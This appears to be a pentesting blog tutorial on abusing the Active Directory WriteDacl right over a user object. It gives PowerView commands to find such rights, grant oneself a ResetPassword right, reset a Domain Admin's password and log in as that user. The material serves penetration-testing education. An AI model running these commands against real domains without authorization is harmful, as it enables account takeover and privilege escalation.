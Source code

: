 ```yaml
---
title:  WriteDacl On User
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: [infrastructure, pentesting, services, active directory, acl, writedacl, privilege escalation]     # TAG names should always be lowercase
---
```


# WriteDacl

***WriteDacl*** : Is a permission that allows you to modify object's ACEs. If you have *WriteDacl* on user object, you can give yourself a right i.e `Resetpassword` that will allow you to reset user's password, thereby escalating your privileges.

# Enumeration

## PowerView

### WriteDacl Enumeration 

Get your current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have *WriteDacl* right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.activedirectoryrights -like "*WriteDacl*")}

```

*below image shows the current user `usman` has WriteDacl right on user object `ali`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedaclenum.png)

### User Enumeration

Execute the below command to get more information about the target user.

Command

```powershell

get-netuser [target_user]

```
*below image shows the target user `ali` is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum2.png)

## BloodHound

You can also get thesame result using bloodhound.

*below image shows the current user `usman` has WriteDacl right on user object `ali` who is a member of `Domain Admins`*

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedaclb.png)

# Exploitation

## PowerView

### Give Resetpassword Right

Execute the below command to give yourself `Resetpassword` right.

Command

```powershell

add-domainobjectacl -TargetIdentity [target_user] -PrincipalIdentity [Your Current User] -Rights Resetpassword

```
You can verify it using the below command.

Command

```powershell

get-objectacl -resolveguids | ? {$_.securityidentifier -eq "[your_current_user_sid]"}

```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/acluserwritedacladd.png)

### Reset Password

With `resetpassword` right given, you can reset his password and login to his account by executing the below command

Command

```powershell

$pass = ConvertTo-SecureString '[Your New Password Here]' -AsPlainText -Force
set-domainuserpassword -identity [target_user] -accountpassword $pass 
runas /user:[domain\user] cmd.exe
```

![userace](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclusergenallenum3.png)

# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
